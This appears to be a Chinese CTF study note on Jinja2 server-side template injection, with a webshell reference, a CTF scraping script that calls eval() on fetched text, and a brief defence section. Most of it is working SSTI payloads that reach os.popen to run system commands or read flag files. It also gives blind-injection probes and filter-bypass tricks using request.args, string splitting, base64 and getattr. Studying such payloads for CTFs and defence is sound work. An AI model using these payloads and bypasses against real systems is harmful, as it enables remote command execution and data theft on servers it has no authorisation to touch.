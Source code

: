 # SSTI and 杂项

python脚本练习：https://fdujwc.cn/befast/

一秒发送计算（秋名山车神）

```python
import requests
import re
url = 'https://fdujwc.cn/befast/'
s = requests.Session()
source = s.get(url)
expression = re.search(r'(\d+[+\-*])+(\d+)', source.text).group()
result = eval(expression)
post = {'value':result}
print(s.post(url,data=post).text)
```

### 一句话木马的基础补充：

https://blog.csdn.net/weixin_39190897/article/details/86772765

一句话木马（**简称Webshell**）

例题就是极客：


密码是attack

这句话什么意思呢？

（1）php的代码要写在<?php ?>里面，服务器才能认出来这是php代码，然后才去解析。
（2）@符号的意思是不报错，即使执行错误，也不报错。

### SSTI jinja2模板学习

flask自带

模板仅仅是文本文件。它可以生成任何基于文本的格式（HTML、XML、CSV、LaTex 等等）。 它并没有特定的扩展名， .html 或 .xml 都是可以的。

瞎写的python以用于学习：

```python
from flask import Flask, escape, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return 'index'

@app.route('/login')
@app.route('/login/<name>')
def login(name = None):
    return render_template('hi.html',name=name)

```

```html
#hi.html
<!doctype html>
<html>
<title>Hello from Flask</title>
{% if name %}
  <h1>Hello {{ name }}!</h1>
{% else %}
  <h1>Hello, World!</h1>
{% endif %}
</html>
```

### ssti 任意命令执行：

```python
{{"".__class__.__mro__.__getitem__(1).__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}

{{"".__class__.__mro__[1].__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}
```

```pyyhon
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()}}
#文件读取
__builtins__以调动函数
```

```
"".__class__
```

通过**bases**或者**mro**来获取到object基类

这里怎么在网页上找到相应的类？fuzz即可

```
"".__class__.__mro__[1]
```

```python
"".__class__.__mro__[1].__subclasses__()
#子类
for i in enumerate(''.__class__.__mro__[1].__subclasses__()): print (i)
#寻找子类


{{"".__class__.__mro__[1].__subclasses__()[118].__init__.__globals__}}
init 初始化 globals 全局

["os"]["popen"]("whoami").read()
```

os.popen("")调用系统命令，可以实现一个“管道”

read()从地址读取回显

### BYPASS技巧

引号：

用元组，列表等引出基类，开头去除""为[]or()

使用request.args导入字符（这种方法没法在我写的html复现， 因为没法传参）

小括号：

一旦被过滤，无法执行函数，但是可以玩玩{{config}}这样的小玩意儿

目前貌似没有不用小括号传参的方法

关键字：

1、同引号：request.args

```python
2、"__cl"+"ass __"
3、base64 or utf-8 decode 
#倒序[::1]
chr()
```

点号：

```
"".__class__等价于""["__class__"]
```

如果被阉割了模块，可以

```python
reload（__builtins__）
```

getitem取用元素，从而绕过[]

过滤{{}}：

可以试试{%%}

### 盲注

```python
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()[0:1] == 'A'}} //true

{%if ().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()[0:1] == 'a' %} konodioda!{% endif%}
```

利用curl将执行结果带出来

脚本还不会写，盲注的方法还不太懂。下一次研究再尝试写出脚本



**getattr()** 函数用于返回一个对象属性值。

```
getattr(getattr((),'__bases__'),"__class__")
```

配合base64， chr等食用效果更佳。字符串总是能玩出许多花样的



### 防御

禁用()

多赋值几次：

get传参给user user又套模板什么的